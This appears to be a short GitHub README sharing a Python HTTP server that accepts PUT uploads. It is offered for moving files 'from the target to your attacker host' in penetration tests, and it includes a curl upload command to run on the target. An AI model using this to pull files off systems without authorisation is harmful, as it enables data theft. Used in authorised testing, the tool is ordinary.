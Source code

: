 **Note: I did not write code, I just found it and saved it.**

Python modules ```http.server``` and ```uploadserver``` appear not to be working when attempting to upload a file from the target to your attacker host. It returns an error that the PUT method is not supported.
So this script will help, just run it and try to upload a file.

```bash
Linux: curl --upload-file <filename> http://<ip>:8000/
```

```python
#!/usr/bin/python
import http.server
import os
import logging

try:
    import http.server as server
except ImportError:
    # Handle Python 2.x
    import SimpleHTTPServer as server

class HTTPRequestHandler(server.SimpleHTTPRequestHandler):
    """
    SimpleHTTPServer with added bonus of:

    - handle PUT requests
    - log headers in GET request
    """
    def do_GET(self):
        server.SimpleHTTPRequestHandler.do_GET(self)
        logging.warning(self.headers)

    def do_PUT(self):
        """Save a file following a HTTP PUT request"""
        filename = os.path.basename(self.path)

        # Don't overwrite files
        if os.path.exists(filename):
            self.send_response(409, 'Conflict')
            self.end_headers()
            reply_body = '"%s" already exists\n' % filename
            self.wfile.write(reply_body.encode('utf-8'))
            return

        file_length = int(self.headers['Content-Length'])
        with open(filename, 'wb') as output_file:
            output_file.write(self.rfile.read(file_length))
        self.send_response(201, 'Created')
        self.end_headers()
        reply_body = 'Saved "%s"\n' % filename
        self.wfile.write(reply_body.encode('utf-8'))

if __name__ == '__main__':
    server.test(HandlerClass=HTTPRequestHandler)
```
